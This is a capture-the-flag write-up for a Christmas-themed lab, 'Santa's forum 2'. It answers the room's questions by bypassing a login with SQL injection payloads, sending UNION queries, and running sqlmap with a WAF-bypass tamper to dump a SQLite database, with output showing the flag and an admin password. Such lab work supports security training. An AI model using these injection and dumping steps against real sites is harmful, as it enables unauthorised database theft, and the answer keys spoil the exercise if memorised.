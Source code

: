 After last year's attack, Santa and the security team have worked hard on reviving Santa's personal portal. Hence, 'Santa's forum 2' went live.

After the attack, logs have revealed that someone has found Santa's panel on the website and logged into his account! After doing so, they were able to dump the whole gift list database, getting all the 2020 gifts in their hands. An attacker has threatened to publish a wishlist.txt file, containing all information, but happily, for us, he was caught by the CBI (Christmas Bureau of Investigation) before that. On 10.10.16.88:8000 you'll find the copy of the website and your goal is to replicate the attacker's actions by dumping the gift list!

Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6.

Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using

- Without using directory brute forcing, what's Santa's secret login panel?
```
/santapanel
```
```
http://10.10.16.88:8000/santapanel
```
- Visit Santa's secret login panel and bypass the login using SQLi
```
'/**/OR/**/1=1#
```
- How many entries are there in the gift database?
```
22
```
```
a' OR 1=1--+
```
- What did Paul ask for?
```
Github Ownership
```
- What is the flag?
```
thmfox{All_I_Want_for_Christmas_Is_You}
```
- What is admin's password?
```
EhCNSWzzFP6sc7gB
```

```
flag' UNION ALL SELECT  sqlite_version(),2--+

GET /santapanel?search=as HTTP/1.1
Host: 10.10.16.88:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.16.88:8000/santapanel?search=a%27%2F**%2FUnION%2F**%2FAlL%2F**%2FSELeCT%2F**%2F1%2CUSER%28%29--%2B
Cookie: session=eyJhdXRoIjp0cnVlfQ.X8vu7A.ejgbhp_34dPeRaCpzdDjXSqih64
Upgrade-Insecure-Requests: 1

saving the request as file called dump

sqlmap -r dump --tamper=space2comment --dbms=sqlite --level 5 --dump-all  

[21:07:10] [INFO] table 'SQLite_masterdb.sequels' dumped to CSV file '/root/.sqlmap/output/10.10.16.88/dump/SQLite_masterdb/sequels.csv'
[21:07:10] [INFO] fetching columns for table 'hidden_table' in database 'SQLite_masterdb'                                                                                              
[21:07:10] [INFO] fetching entries for table 'hidden_table' in database 'SQLite_masterdb'                                                                                              
Database: SQLite_masterdb                    
Table: hidden_table                          
[1 entry]                                    
+-----------------------------------------+                                                
| flag                                    |                                                
+-----------------------------------------+                                                
| thmfox{All_I_Want_for_Christmas_Is_You} |                                                
+-----------------------------------------+                                                

[21:07:10] [INFO] table 'SQLite_masterdb.hidden_table' dumped to CSV file '/root/.sqlmap/output/10.10.16.88/dump/SQLite_masterdb/hidden_table.csv'
[21:07:10] [INFO] fetching columns for table 'users' in database 'SQLite_masterdb'                                                                                                     
[21:07:10] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'                                                                                                     
Database: SQLite_masterdb                    
Table: users                                 
[1 entry]                                    
+----------+------------------+              
| username | password         |              
+----------+------------------+              
| admin    | EhCNSWzzFP6sc7gB |              
+----------+------------------+   
```
